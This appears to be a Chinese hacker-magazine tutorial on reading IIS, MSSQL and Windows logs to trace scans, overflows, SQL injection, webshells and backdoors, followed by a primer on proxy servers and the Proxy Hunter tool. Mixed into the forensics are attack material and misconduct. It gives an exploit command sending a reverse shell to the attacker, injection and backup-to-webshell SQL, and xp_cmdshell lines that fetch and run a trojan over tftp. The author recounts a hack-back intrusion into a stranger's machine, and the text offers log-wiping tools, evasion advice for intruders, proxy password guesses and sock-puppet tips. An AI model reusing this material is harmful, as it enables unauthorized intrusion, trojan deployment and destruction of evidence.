在“扩展日志记录属性”中，我们切换到“扩展属性”选项，可以选择 IIS 应该记录哪些内容。默认情况下记录有“客户端 IP 地址”“方法”“URI 资源”“协议状态”“时间”等，如图 7。一般来说这些信息就已经足够；如果有需要也可以追加更多要记录的字段（例如 Cookie），并可在日志中看到相应动作记录。


现在很多服务器会使用 MSSQL 数据库以提高 Web 服务效率。黑客进行 SQL 攻击时，如果使用了存储过程或函数，也可能在 MSSQL 日志中留下痕迹。默认安装的 MSSQL 日志通常位于 `C:\Program Files\Microsoft SQL Server\MSSQL\LOG`，可用文本编辑器查看。

另外，很多杀毒软件和防火墙也有自己的日志记录，这些也是重要的溯源依据。若安装了第三方服务（如 Serv-U FTP），同样会产生详细访问与告警日志。防火墙提示中有些属于常见探测噪声，需要结合实际影响判断。

来看服务器记录了多少黑客信息，如图 9。


事实上，黑客在猜解系统密码和 FTP 账号时，系统日志与安全日志会记录非常详细的过程。图 10 展示了尝试使用账号登录 FTP 服务时留下的事件信息；由于不断猜测账号密码，每次猜错都会留下记录，可据此对相关用户进行提醒或加强口令策略。


# 第二节 模拟攻击对比日志

## 2.1 扫描时留下的日志

在对日志有了大概了解后，继续观察黑客扫描、攻击后日志会记录什么。使用 VMware 搭建测试环境，安装 IIS、MSSQL 和论坛服务，再用 X-Scan 3.3 进行一次普通扫描，如图 8。


当黑客通过扫描获得了服务器相关信息后，我们可以继续从对应日志中进行核对与分析。

```text
#Software: Microsoft Internet Information Services 5.0
#Version: 1.0
#Date: 2002-07-24 01:32:07
#Fields: time c-ip cs-method cs-uri-stem sc-status
03:15:20 192.168.0.123 [1]USER administrator 331
03:16:12 192.168.0.123 [1]PASS ... 530 (登录失败)
03:17:04 192.168.0.123 [1]USER bright 331
03:17:06 192.168.0.123 [1]PASS ... 530 (登录失败)
03:17:20 192.168.0.123 [1]USER lzy 331
```

默认情况下，X-SCAN 还会对目标主机进行 IIS 编码解码漏洞检测，该过程会在 IIS 日志中留下大量记录。打开系统日志目录后可看到当天日志文件，并可据此还原扫描行为。


W3C 扩充日志格式在 2006 年 3 月 11 日记录下的 IIS 日志（默认情况下每天一个日志），使用记事本打开就可以看到里面的内容，如图 11。截取其中部分信息如下：

```text
#Version: 1.0
#Date: 2006-03-11 15:42:10
#Fields: date time c-ip cs-username s-ip s-port cs-method cs-uri-stem cs-uri-query sc-status cs(User-Agent)
2006-03-11 15:42:10 ... HEAD /_mem_bin/..?...?..?.?winnt/system32/cmd.exe /c+dir 404
```

这条日志详细记录了事件发生的日期、时间、客户端 IP 地址、客户端用户名、服务器（本机 IP 地址）、服务器端口、请求资源所使用的方法、所请求的 URI 资源、返回状态、客户端使用的浏览器类型。

因此我们可以知道在 2006-03-11 15:42:10 这个时间，服务器受到了来自 192.168.0.123 的 URL 编码扫描，对方请求了 `http://192.168.0.102/_mem_bin/..?...?..?.?winnt/system32/cmd.exe /c+dir` 这个 URL 地址后，得到了一个 404 的错误返回代码。

不过这些漏洞实在太过久远，基本上不可能对服务器的安全构成威胁。对于一个熟练的入侵者，他会直接选择最新出现的流行漏洞来进行扫描。举个例子，MS05039 漏洞出现后，出现了一个针对该漏洞的专用扫描器，如图 12（之前有 MS04011、MS04045，之后有 MS05051，这些漏洞扫描器的界面都完全一样）。


不过经过无数次的实验以后，我无奈地发现，这些扫描器基本上没有在系统自带的日志上留下任何痕迹！这对管理员来说，或许是个坏消息，可是对于正在看此文章的你来说，你是否决定以后入侵之前的扫描会全部改用类似的扫描器呢？

## 2.2 溢出攻击时留下的日志

好了，黑客们扫描结束后，就该根据扫描的结果进行攻击了！我们首先假设黑客发现这台机器的某个溢出漏洞，并使用了工具进行溢出攻击，那么我们根据漏洞的不同来进行测试（测试的方法为：首先将目标机器上所有日志清除，然后对目标进行溢出，查看新生成的日志）。

#### MS04045 漏洞

微软的 04045 漏洞出现在 WINS 服务中，该服务默认并没有安装，需要在 Windows 2000 中依次展开“开始”/“设置”/“控制面板”/“添加删除程序”/“添加删除 Windows 组件”/“网络服务”后进入详细信息里选择安装。安装完毕以后，服务器会打开 42 端口。黑客们进行攻击时使用以下命令：`ms04045.exe -t 192.168.0.102 -t 0 -l 192.168.0.123 -p 1235`（溢出攻击 192.168.0.102，并使其将 shell 发到 192.168.0.123 的 1235 端口上。当然，事先要让 192.168.0.123 监听好该端口）。


攻击结束后，我们发现被攻击的服务器上多了三条日志，如图 13、图 14、图 15、图 16。


- WINS 的 Push 线程遇到一个错误。将试图恢复。
- WINS 遇到内存不足的情况，请检查系统的虚拟内存是否用完。
- 出现了一个错误，WINS 试图从中恢复。如果恢复失败，请检查前面的事件日志项以确定恢复失败的原因，进行适当操作以解决此问题。


#### MS-04007 ASN.1 漏洞

这个漏洞可以使用 5 个不同的服务（自然对应了五个端口）来溢出：IIS 服务（80 端口）、IIS-SSL 服务（443 端口）、SMTP 服务（25 端口）、NetBIOS（139 端口）以及 SMB 服务（445 端口）。

我们使用 sagi 为大家编译好的 winasn.exe，用法很简单，`winasn -p 目标端口 目标IP` 或者 `winasn -s 服务类型 目标IP`。比如我们现在要溢出的是 192.168.1.8，输入：`winasn -s smb 192.168.1.8`，成功的话就会打开对方的 8721 端口，如果我们的溢出工具目录下还放有 nc.exe 的话，它还会自动调用 nc 去连接目标机的 8721 端口得到 shell，如图 17。


此时查看日志可以知道，多出了一条系统日志提示：安全程序包 Negotiate 产生了意外现象，程序包故障信息是数据。使用其他溢出漏洞（如 MS-04011、MS05039 等）也可见类似日志现象。


**总结分析** 从前面的这次测试我们可以看到……（讲述漏洞告警、日志记录与安全分析的过程）


在整个攻击过程当中，我们还能观察到木马/后门告警信息，以及相关安全软件对风险行为的拦截提示。


好了，可爱的 UltraEdit-32（以下简称 UE）为我们找到了非常多的信息，如图 23。


单击“全部书签”按钮，我们可以使搜索到的结果标上高亮颜色以方便阅读。现在看看找到的第一条记录，图 24。


```text
2006-02-23 09:10:57 192.168.8.183 GET /article.aspx ... 221.232.168.254 Mozilla/4.0 ...
```

从这条记录里我们知道，来自 221.232.168.254 的不速之客在 2006-02-23 09:10:57 这个时刻访问了我们的 WEB 服务器的 `/article.aspx` 页面，并且发现 id 变量未过滤，使用了 “and 1=1” 进行手工探测（其中空格被自动转成 “%20”）。这位不速之客使用的是 Windows NT 5.0（Windows 2000）和 IE 6.0，请求返回结果是 200（IIS 正常返回）。

## 2.3 遭遇 SQL 注入攻击真实案例分析

上次有个朋友和我说现在黑站除了注入还是注入，这话虽然有些偏激，可还是能看出注入这类技巧在实战中所占比例……

分析日志时所使用的工具是著名的文本编辑器 UltraEdit-32。使用它打开日志后，我们先按下 Ctrl+F 搜索关键字，例如“'1=1'”、“and 1=1”、“and 1=2”等，以判断是否存在注入探测行为。

在搜索的同时，我们选中“列出包含字符串所在的行”，这样可以更方便后续分析工作（对应图 22）。

> IIS 常见返回代码含义：
- 200：正常返回
- 401：验证失败
- 403：拒绝访问
- 404：请求资源不存在
- 500：IIS 内部错误（程序错误）

掌握这些信息后，开始按该 IP（221.232.168.254）检索访问行为，统计其访问时间与请求资源，发现其在极短时间内开始扫描上传页面、数据库与后台路径。


```text
2006-02-23 09:09:51 ... GET /data/ovbbs7.mdb ...
2006-02-23 09:09:52 ... GET /database/ovbbs7.mdb ...
2006-02-23 09:09:53 ... GET /admin/data/... ...
2006-02-23 09:09:54 ... GET /data/conn-news.mdb ...
...
```

> #### TIPS：POST 和 GET 方式有什么区别
说明了同一资源在 GET 下参数会出现在 URL 中，而 POST 参数在请求体中；并举例说明日志中可见性差异。

仔细观察对方访问文件可推断其使用 Domain 3.5 漏洞利用器；通过批量检测工具可见请求资源与 IIS 日志顺序基本一致。


接下来可忽略工具扫描产生的冗余信息，重点看注入点行为。并通过替换功能把 “%20”→空格，“%2B”→“+”，“char(124)”→“|” 来还原语句。

```sql
... /article.aspx?id=584 And exiSts(select * from sysobjects ...)
... /article.aspx?id=584 And 1=(select top 1 ...)
... ;DROP TABLE D99_Tmp ...
EXEC MASTER..XP_CMDSHELL 'DIR C:\'
... CREATE TABLE #DYI_TEMPCOMMAND ...
```

该攻击者使用了高权限的 `XP_CMDSHELL`，在数据库上下文中执行系统命令并查看 C 盘目录。默认情况下此存储过程权限极高，风险很大。

什么呢？我们继续查找 EXEC 做关键字，翻出他所有执行存储过程的动作，如图 28。


```text
2006-02-23 09:56:39 192.168.8.183 GET /article.aspx id=584
EXEC Master..xp_CmdShell 'echo ...' ... /Admin/ma.asp
```

从图中选中的那条路径很容易知道对方使用 echo 写入了一个典型的一句话木马到我们的 WEB 目录下。接下来继续找，果然看到这么几条：

```text
2006-02-23 10:00:18 ... POST /Admin_help.asp ...
2006-02-23 10:00:18 ... GET /Admin_help.asp ...
2006-02-23 10:00:21 ... GET /Admin_help.asp Action=MainMenu ...
2006-02-23 10:00:23 ... GET /Admin_help.asp Action=ShowFile ...
```

根据这个 “action=mainmenu”，推测对方传了个“老虎 Asp 站长助手 6.0”并查看了服务器文件。不过由于多数参数通过 POST 传递，因此仍无法知道具体浏览文件内容。

```text
2006-02-23 09:13:47 192.168.8.183 GET /article.aspx id=584
DROP TABLE D99_tmp
CREATE TABLE D99_tmp (subdirectory nvarchar(256) NULL, depth tinyint NULL, [file] bit NULL)
DELETE D99_tmp
insert D99_Tmp exec master..xp_dirtree ...
```

这条日志告诉我们，数据库中多了个 D99_Tmp 的表。若管理员没有执行 xp_cmdshell 等存储过程权限，黑客还可通过 BACKUP 差异备份拿到 shell，方法如下。

```sql
create table dbo.aspshell (str image)
declare @a sysname
select @a=db_name()
backup database @a to disk='c:\test\1.bak' with differential
drop table aspshell
```

```sql
declare @a sysname
select @a=db_name()
backup database @a to disk='c:\test\1.asp' with differential
drop table aspshell
```

MSSQL 默认情况下会记录这一事件，打开 MSSQL 企业管理器，依次找到“管理”→“SQL Server 日志”即可看到，如图 29。若换了 HDSI 执行命令时可能不同。监听 80 端口后，用 HDSI 对 `http://localhost/id.asp?id=1` 执行高级命令，返回信息如图 30。


它提交的信息都是编码的，如果我们在 IIS 日志中看到这些东西不是要头大？其实只要复制这一段乱码，选中后单击 UE 底部的解码图标，瞬间就能看到数据的本来面目，如图 31。


同时，如果对方是通过了网站的论坛入侵，如 DVBBS 后台的恢复数据库拿 shell，也会在论坛的日志里留下痕迹。`DBpath=../UploadFile/2006-4/20061423171111021.txt&backpath=../shell.asp`，DVBBS 的日志可以被清除，但是最近 2 日内的不能被删掉，这需要使用 ASP 木马的数据库连接功能连接后，使用 `delete from dv_log` 自行删除，如图 32。


> **总结：** 对入侵者的建议，尽量使用变形过的代码进行注入，或者使用 NBSI 的 POST 方式提交数据。对管理员的建议，每天都要检查日志，一旦发现有人注入应记录并分析其日志中的参数与文件名等信息，及时修复和清理。

即使换别的 ASP 木马也差不多，大多数都是有 file、path、data、info 这一类的关键字，这里就不再列举了。当然，有的时候对方传一个马儿上来可能马上就会被杀毒软件干掉，那么根据经验，对方一定不会善罢甘休，而是换一个改造过的马儿试试看能不能躲过查杀，这个马儿往往跟第一次被杀的马儿放在同一个目录下，所以杀毒软件的日志也应该是管理员密切关注的一个东西。

### 2.4 揭密 ASP 木马

我们也看到了，上面那个案例里，入侵者费尽苦心就是为了得到一个 ASP 木马（俗称 webshell），那么对方在 ASP 木马里所做的事自然更应该引起我们的关注了。好在现在流行的 ASP 木马并不多，这里就以海阳顶端木马为例。

```text
GET /a.asp ...（访问木马）
POST /a.asp ...（提交登录信息）
GET /a.asp?pageName=PageList ...（登录成功，查看功能清单）
GET /a.asp?pageName=FsOfFileExplorer ...（查看文件）
POST /a.asp?pageName=FsOfFileExplorer ...（提交目录浏览请求）
GET /a.asp?pageName=FsOfFileExplorer&thePath=...（目录遍历）
GET /a.asp?pageName=FsOfExplorer&theAct=showEdit&thePath=...（查看/编辑配置）
POST /a.asp?pageName=MsDataBase&theAct=showTables ...（连接数据库）
```

如果是海阳顶端的一句话木马的话，日志只不过是比正常的海阳马多了个 `%23=Execute(Session("%22%23%22"))` 而已。例如下面两条日志：

```text
GET /shell.asp/%23=Execute(Session("%22%23%22"))&pageName=MsDataBase...
POST /shell.asp?pageName=MsDataBase&theAct=query&sql=...
POST /shell.asp/%23=Execute(Session("%22%23%22"))&pageName=FsOfFileExplorer...
...（后续命令执行与权限提升相关日志）
```

## 2.5 留后门留下的痕迹

尽管我们一再小心防范，系统还是有可能会被对手攻破，这时候入侵者就不客气了，肯定会留下后门，方便下次控制我们的机器。分析对手留后门的方式：

- 加个账号到管理员组或者克隆一个账户，下次直接 3389 登录。
- 安装一个普通的后门，这样一般都会在 `system32` 目录下增加新的文件或者添加新的服务与端口。
- 安装 RootKit，隐藏添加的文件和服务。

以 Windows 2003 为例，我们使用特克克斯的随意门 3.0 给系统增加几个用户：

```text
CMD> admin_test$ shnily
... 成功
已添加隐藏的管理员用户
用户名：test$
密码：shnily
...
CMD> clone_shnily
克隆 Guest 成功
用户名：Guest
Guest 密码：shnily
```

这个只是将 Guest 克隆成管理员。我们在 CMD 下输入 `net user` 或者 `net localgroup administrators` 是查看不出异常的。因此推荐大家使用 `mt.exe` 这个小工具。

```text
C:\WINDOWS\system32>mt -chkuser
Require: system privilege
```

提示我们需要系统权限，默认情况下只有 administrators 权限不足以检查注册表中相关键值。

```text
C:\WINDOWS\system32>mt -su cmd
Successful!
```

我们使用这个命令打开一个具有 system 权限的 CMD，注意这个命令在终端服务上是不可以用的。

```text
C:\WINDOWS\system32>mt -chkuser
```

# 主题乐园

| UserName | ExpectedSID | CheckedSID |
|---|---|---|
| Administrator | 1F4 | 1F4 |
| ASPNET | 3EF | 3EF |
| Guest | 1F5 | 1F4 |
| IUSR_WWW-HZ0752-NET | 3EB | 3EB |
| IWAM_WWW-HZ0752-NET | 3EC | 3EC |
| SUPPORT_388945a0 | 3E9 | 3E9 |
| test$ | 3F3 | 1F4 |
| WMUS_WWW-HZ0752-NET | 3EE | 3EE |

Note: If CheckedSID is different from ExpectedSID, this account has been cloned!

这下将所有的用户都列举出来了，如果发现 ExpectedSID 与 CheckedSID 的值不一致，就确定该账户是克隆过的。此例中 Guest 用户和 test$ 用户被克隆为 Administrator。


如果是 Windows 2000 服务器，正常登录不记录 IP 地址而记录主机名。即使攻击者尝试清除日志，也可能留下一条日志记录。


这样入侵者想抹除痕迹也很难做到完全不留痕。若不是新增用户而是安装后门，则需要继续通过系统目录与服务差异进行排查。

一般会在 system32 目录新增文件或新增服务。可在系统正常时记录目录与服务清单，异常时做对比。

```bash
dir c:\windows\system32 > c:\files_1.txt
net start > c:\services_1.txt
```

将可疑文件复制到 system32（如 inetsrv.dll）并执行安装后，再次导出清单：

```bash
dir c:\windows\system32 > c:\files_2.txt
net start > c:\services_2.txt
```

对比前后生成文件：

```bash
fc c:\files_1.txt c:\files_2.txt
fc c:\services_1.txt c:\services_2.txt
```

```text
比较结果示例：
**** C:\SERVICES_1.TXT
IIS Admin Service
IPSEC Services
**** C:\SERVICES_2.TXT
IIS Admin Service
IIS Services
IPSEC Services
```


可据此发现 C:\SERVICES_2.TXT 中多出 IIS Services。对异常文件应先备份再分析，若含木马/后门迹象可交由专业人员处理。

文中建议结合 dir、fc 以及专用工具（如 knlsc13.exe、Icesword）进行排查与处置，并举例说明后门会在 system32 与 drivers 目录投放 DLL/SYS 文件，再停止并禁用相关服务。

重新启动后，再使用`nt -remsrv Yhlxkxwt`将该服务删除，把`Yhlxkxwt`开头的所有文件也删除掉，就可以手工清理掉这个后门了。如果是其它后门的话，耐心点也是可以通过这两个工具手工干掉的！


图35

路人甲：等一下，我的机器是个人机，我的QQ号被人改了密码，我怀疑我的电脑中了像 QQ 大盗之类的木马，怎么确认？其实 QQ2005 Beta3 开始都已经采用了国际先进的 IP protect 键盘加密保护技术，如果中了木马的话，就会出现图36的症状。


图36

这时避免使用自己常用的QQ，以免造成损失。老手的做法一般是申请一个新的QQ号以后，故意登录该QQ号。这时候对方的木马会将咱们的密码信息发送出去，咱们就提前使用`xsniff.exe`这类嗅探工具监视着，一般都可以嗅到对方的发信邮箱的账号和密码，然后将其密码改掉使对方的木马不能够发信（上一次才讲了嗅探专题，这里就偷个懒不做演示了）。

# 2.5 日志删除与保护

讨论了这么长时间，我想大家一定都累了，那就看看作为一个黑客一般都是如何删除日志的，而管理员又要如何阻止这样的事情发生呢？

### 1．系统日志删除工具

这里只说比较好用的`mt`好了。


删除所有日志，但是并不推荐，因为这样会更容易引起管理员的注意。请不要问我能否选择性地删除某一条日志，偶为此烦恼了好多年了，也没见谁给出过解决的办法，哀悼一下！

### 2．IIS 日志删除工具

这里推荐的是`CleanIISLog.exe`，用法是：`CleanIISLog.exe IIS日志文件名 本人IP`，这样就可以在IIS日志中将指定IP地址的那些行删除掉。举例如下：


这样就成功地把`C:\WINDOWS\system32\LogFiles\W3SVC1\ex060414.log`中所有包含`192.168.0.123`的条目删除了。那么从保护的角度来看，我们就要单独为IIS设置一个文件夹用于保存日志，并且把该文件夹的权限设置得BT一点，只允许管理员和SYSTEM为完全控制的权限。

### 3．其它日志

类似于防火墙、杀毒软件、数据库系统等也都有自己默认的保存日志的设置，为了安全的需要，将其全部移位并单独设置权限也未尝不可。最BT的说法是把这些日志连到一个打印机上，实时地打印出来。这样黑客没办法物理接触到打印机就绝对不可能清除日志了，但是个人认为这样做太不实际，真正的情况应该是管理员能够坚持每天检查一遍日志，这样比什么都安全。


好了，到这里我们也简单地将常见的入侵所留下的痕迹分析了一遍了。可是实际生活和工作中，我们普通用户是不可能做到每天都去检查一遍所有的日志的。所以我们实际的做法应该是这样的：当系统不正常时，比如响应速度特别慢，程序总是出错，网速特别卡等等情况时，首先应该使用任务管理器检查进程与其所占的资源大小是否正常。使用`netstat -an`命令查看本机打开的端口是否正常。如果都不对劲，怀疑中了木马或者被入侵了的话，应该将杀毒软件升级到最新检测一遍是否存在病毒，如果还是没解决问题，才会仔细地查看日志分析原因。

前些天我就遇到这样的一件事，刚打开电脑什么都没干，就发现网卡指示灯红闪个不停！非常奇怪地查看了下进程和端口，结果发现有一个IP地址拼命地连接本机的1433端口，如图37。


图37

于是想起来之前为了做实验，我把自己的1433端口做了映射到公网上了，没想到今天就被扫描了。现在要做的第一件事自然就是到路由器里取消1433端口的映射，让爱机安静下来。然后，从图中找出对方的IP地址，使用 Superscan 扫描了一下，发现对方也打开了1433端口，然后试着打开查询分析器，填入对方IP地址，用户名填 SA，密码为空，没想到居然连接上了！接下来就简单了，在本机架设好 TFTP 服务器，然后在查询分析器里使用：

```sql
exec master..xp_cmdshell 'tftp -i 我的IP get 木马.exe'
exec master..xp_cmdshell '木马.exe'
```

上传了我配置好的PCSHARE木马并运行，没一会对方就屁颠屁颠地上线了。查看了一下他的网络连接，郁闷地发现那家伙不停地往外扫描1433端口，原来是中了毒。于是在对方桌面上留下一个文本文档进行警告后，卸载掉了这个PCSHARE（网速又烂，配置又差，还中了毒的个人鸡，实在没什么价值）。而有的时候，在系统日志里还能看到如图38的记录……（后文略）


个网站挂的网页木马。那么到底是什么人这么缺德呢？我们先看看 http://whois.webhosting.info/xdxf.net，看看 xdxf.net 这个网站到底是什么人注册的，如图39。


从图中的信息我们可以知道这是一个放在中国的虚拟主机，该虚拟主机上还有283个域名绑定着，站长的名字叫做 ZhaoBizheng。电子邮件、移动电话与固定电话等等信息，我们都记录下来。然后看看该站的其它页面，发现是一个 DVBBS，而站长本身还发了一些关于黑客技术的帖子……这就说明了他一定自己做了免杀处理，那么我们就有必要将网页木马下载下来提交给杀毒软件公司，以免更多人受害。

OK，由于本人时间、条件与技术都非常有限，本文只能讨论到这个位置。希望对广大菜鸟朋友们能有所帮助。（文中涉及到的工具：X-SCAN、ms04045.exe、winasn.exe、UltraEdit-32、Domain 3.5、mt.exe、CleanIISLog.exe、Superscan……）

# 菜鸟也来玩代理


# 一、什么是代理服务器？

代理服务器是介于浏览器和 Web 服务器之间的一台服务器，当你通过代理服务器上网浏览时，浏览器不是直接到 Web 服务器去取回网页，而是向代理服务器发出请求，由代理服务器来取回浏览器所需要的信息并传送给你的浏览器。而且，大部分代理服务器都具有缓冲的功能……

- 1. 连接 Internet  
  与 Intranet 充当 firewall（防火墙），因为所有内部网的用户通过代理服务器访问外界时，只映射为一个IP地址，所以外界不能直接访问到内部网，同时可以设置IP地址过滤，限制内部网对外部的访问权限……

proxy 都是禁止访问 VOA 的（是 voa.com 不是 voa.org，美国志愿者），一旦试图访问就会出现禁止的字样，作为警告。好比你向报亭要一份 playboy，可能不但得不到，还会被教训一顿。这种限制是人为的，和 server 对地址的封锁是不同的，所以一个不行时可以换另一个试试（例如前一段时间对 geocities 的封锁）。

# 2. 节省 IP 开销

如前面所讲，所有用户对外只占用一个 IP，所以不必租用过多的 IP 地址，降低网络构建成本。当然也有它不利的一面，如许多网络黑客通过这种方法隐藏自己的真实 IP 地址，而逃过监视。

# 3. 提高访问速度

通常代理服务器都设置一个较大的硬盘缓冲区（可能高达几个 GB 或更大），当有外界的信息通过时，同时也将其保存到缓存区中，当其他用户再访问相同的信息时，则直接由缓冲区中取出信息传给用户，以提高访问速度。

# 二、什么人架设代理服务器？

架设代理服务器的主要是 ISP 和一些有内部网的公司、企业和单位。ISP 架设代理服务器一般是为了减少数据流量、提高用户的浏览速度，让其用户都通过代理服务器来访问互联网。这样对于相当一部分经常性重复访问的数据，代理服务器就可以直接传送给用户而不用重复下载。有内部网的单位，他们可能租用了一条专线或拨号上网，但却只有这一台机器可以上网，那么就在它上面安装一个代理服务器软件，于是内部网的其它机器也就可以通过这个代理服务器上网了。

# 三、哪些人使用代理服务器？

最直接的用户当然是教育网和科技网内的 IP 受限制而不能访问国外资源的用户大众，他们可以通过 ChinaNet 搜索到那些没有设置权限限制的代理服务器，从而能够通过代理服务器访问国外资源。代理服务器的第二大用户群则是 169 用户，他们一般只能在 169 网内部检索，必须通过那些做跨 169 网和 ChinaNet 的代理服务器才能访问 Internet 网（这就是我们最需要的）。另外，有些 163 用户或教育科技网中可以直接访问国外的用户出于某种需要（如隐藏身份），也搜索和使用代理服务器。

# 四、什么是免费代理服务器？

在使用代理猎手等软件搜索代理服务器地址时，会在验证状态栏中出现类似“要密码”、“Free”等字样。如果把“要密码”的代理地址设置为代理服务器，当你访问网页时，就会弹出一个对话框，要求输入“用户名”和“密码”。这说明该台代理服务器不能免费使用，需要向对方注册得到用户名和密码后才能使用。当然，你如果是密码破解高手（黑客）的话……那就上吧！如果幸运的话，以下的“用户名/密码”说不定能用：“user/passwd”、“demo/demo”、“guest/guest”、“temp/temp”、“share/share”（有时要在密码后加上数字，像 guest2 等）。如果你把“Free”的地址设置为代理服务器，那你就会发现访问网页时不会要求你输入密码了，这就是“免费的代理服务器”。

> 1. 是系统漏洞，一旦被网管发现就会被堵上。  
> 2. 是善良的网管和其他有机会接近主机的人，将机器设成了代理服务器。  
> 3. 是真正的好心人，就是将自己的机器作为免费代理，造福广大网民。  
> 4. 是 ISP 市场为了提高影响，在一段时间内免费开放，一般时间很短。

# 五、关于代理服务器的速度

使用代理猎手 2.8 及以下版本搜索验证代理地址时候会出现类似“Free 3 秒”、“Free 15 秒”等字样，这里的 3 秒、15 秒是指代理服务器的响应时间，时间越短说明代理服务器的速度越快，用起来当然越爽了！在代理猎手 3.0 以下版本，验证时间栏改为“时间特性”，显示情况类似“0.9|1.3|2.6”、“26.3|0.0|26.3”，这三个时间依次代表：连接时间、首次接收数据时间、总验证时间。当然也是值越小越好了。决定一个 proxy 的速度的因素有很多，主要的有以下几点。

> 1. 决定代理服务器所在的网络：大家使用 proxy 主要还是为了出国，因而国内网络的出口带宽就直接决定着其中 proxy 的速度。  
> 2. 代理服务器的性能：proxy 不过是一个大 cache 而已，因此它的硬盘大小、网络带宽也会影响速度。  
> 3. 代理服务器与你的机器之间的距离：距离越远速度也就越慢。  
> 4. 你所访问的站点的情况：对方的带宽、线路与负载都会影响速度。  
> 5. 本地机器：你的机器性能配置等一般来说对 proxy 速度影响不是很大。

# 六、匿名代理知识

在使用代理的同时，绝大多数的代理会将使用者的信息告诉你浏览的网站。如果不想让浏览的网站知道你信息的话，推荐使用提供的高速匿名代理。HTTP 代理一共分为 6 个等级：Level1 级代理（高度匿名）；Level2 级代理；Level3 级代理；Level4 级代理（网站不仅知道你使用了代理，还知道你的 IP）；Level5 级代理（次于 4 级的代理）。

## 1. 匿名代理常见用途

- （1）在 BBS 用多个账号（马甲）顶帖子的时候，通过变换匿名代理可以让版主查不出马甲的位置。
- （2）对付某些禁止国内 IP 登录的网站，在对付禁止国内 IP 申请资源的地址特别有用。

## 2. 关于代理的一些常见问题

- （1）匿名代理怎样设置？匿名代理和普通代理的设置完全相同。
- （2）匿名代理与普通代理有什么不同？
- （3）匿名代理怎样测试通过的？代理均在 1000 线程的苛刻条件下通过下面六次测试，第一次验证：确认代理可用。

第二次验证：确认没有假代理。  
第三次验证：确认全部是匿名代理。  
第四次验证：确认 Level3 级代理。  
第五次验证：确认 Level2 级代理。  
第六次验证：确认 Level1 级代理。

（4）搜索到的代理后面的参数是什么意思？举一个例子：64.14.144.71:80@HTTPS$6&231,841,1821。“$6”表示这个代理已经通过测试；“231”表示从向这个代理发出第一个信息到它返回第一个确认信息的时间间隔是231毫秒；“841”表示向这个代理发出第一个要求浏览的信息到它返回的第一段网页内容的时间是841毫秒；“1821”表示从向这个代理发出第一个要求浏览的信息到测试完毕的时间是1821毫秒。

（5）怎样验证我的代理是不是匿名代理？  
第一步，不要设置代理用 IE 登录 http://216.92.207.177/pr.htm，将会获得你自己的IP地址，我假设获得的是 210.29.140.6。  
第二步，用 proxyhunter 批量导入代理，随便找一个网站验证，比方说 www.yahoo.com，留下 free 的代理。  
第三步，proxyhunter 验证地址设置为 http://ssl.pirateserver.com/prxjdgssl.cgi，特征字串设置为刚才获得的IP，我这里先设置为 210.29.140.6。  
第四步，用第三步的验证数据验证 free 的代理。验证之后所有 free 的代理都是透明代理（就是从 Level3-Level5 级的代理），而不匹配的代理则是匿名代理（Level1-Level3 级代理）。

Level1 级代理的验证：只留下上面验证后的“不匹配”代理（这些代理都是匿名代理），然后新建一个验证数据，验证地址还是 http://ssl.pirateserver.com/prxjdgssl.cgi，但是特征字串设置为1，接着就以这个数据进行验证，free 的代理是 Level1 级匿名代理。  
Level2 级代理的验证：由 Level1 级代理的验证，但是将特征字串改为2。自然剩下的就是 Level3 级的代理了。

### 3．代理格式的含义详解

以 211.98.24.6:8080@HTTP$6&263,1987,2543#北京市 为例，211.98.24.6 表示为代理服务器的IP地址；8080 表示该代理服务器的服务端口为8080（21、23、80、81、1080、3128、8080等）；“@HTTP”表示该代理服务器的类型为 HTTP 代理（HTTP、FTP、SOCKS4/5、TELNET 五类）；“$”后的数值表示代理服务器验证状态（$4：正在验证；$5：验证超时；$6：免费的；$7：要密码；$8：不符合协议；$9：不匹配；$10：不支持的协议；$11：无法确定）；“&”后的以“,”分隔的三个数值是反映该代理本地连接的三个时间特性，第一个是反应速度，第二个是校验时间，第三个是连接时间，所以当然也就是说数值越小的代理就是越快的；“#”注释代理为北京市（自定义）。

# 第三节 代理猎手的详细使用方法

去年使用 ADSL 漏洞狂刷QQ币的朋友们想必都使用过代理猎手，代理猎手可算是一个在搜索代理软件中的佼佼者。但还有很多刚入门的朋友不会使用这个软件，如果不会使用代理猎手的话，要想完成代理猎手的另类用途就会有一定的难度了，因此，接下来我就先给这些没接触过代理猎手的朋友介绍一下代理猎手的使用方法。

代理猎手是集代理服务器的搜索和验证于一身的工具，有以下一些特点。

# 一、特点

- 支持多网址段、多端口自动搜索；
- 支持不同网段搜索顺序的调整；
- 支持自动验证并给出速度评价；
- 支持搜索结果的保存和后续的再验证；
- 支持搜索结果的灵活排序；
- 支持搜索结果的导出和导入；
- 支持用户设置连接超时和验证超时；
- 支持用户设置验证内容；
- 支持进度时间预测；
- 支持自动查找最新版本；
- 具有搜索完毕可以在20秒后关机；
- 具有代理搜索验证历史；
- 支持 Proxy、SOCKS 代理的自动切换和调度；
- 支持用户设置最大连接数；
- 支持自动搜索，可加入 Win98 计划任务中午后启动搜索；
- 支持 HTTP 和 SOCKS4、SOCKS5、FTP、TELNET（WINGATE）代理服务器的搜索和验证；
- 自动扩展系统最大网络连接数；
- 具有拨号功能，可添加拨号任务、挂断任务，断线可自动重拨；
- 进入 Windows 可以自动运行、启动时自动开始搜索、自动验证代理调度表；
- 最大的特点是搜索速度快。

# 二、代理猎手的下载安装

目前代理猎手的最新版本是3.1，新版本提供的功能是以前2.*老版本所不能比拟的。本文我以代理猎手V3.0为例进行讲解。

我下载回来的 proxyht300beta5.exe 是个自解压 EXE 文件，双击运行就可以开始其安装过程，如图1。


图1


图2

点击“Setup”按钮，进入下一步，如图2。点击“确定”按钮选定默认的中文语言。接着点击两次“下一步”后，安装过程就真正开始了，等一会儿安装程序完成会在桌面和程序组中放入“代理猎手V3.0”的快捷启动项目。点击其快捷方式就可以启动代理猎手。

第一次使用代理猎手的时候会弹出一警告窗口，提示使用代理猎手搜索服务器可能会带来的问题。


图3

如果确定要使用，就点击按钮“我知道了，快让我进去吧！”。同时不要忘了选上“以后不显示此对话框”，以免每次运行都提示该窗口，如图3。代理猎手的主运行界面如图4。


图4

# 三、代理猎手的使用

### 1．添加搜索任务

先选中“搜索任务”标签，点击下面的“添加任务”按钮，如图5。在添加任务窗口中选择任务类型，默认为“搜索网址范围”，点击下一步，如图6。选中上图中的“选取已定义的范围”按钮，如图7。再在上面弹出的窗口中，点击“打开”按钮，可以看到如图8的打开文件窗口。代理猎手已提供了好些网段的IP地址范围，我们可以根据自己的情况选择相应的网段来进行搜索。本例中选定香港的IP地址范围来进行检索，选中HongKong.ipx文件，点击“打开”按钮。

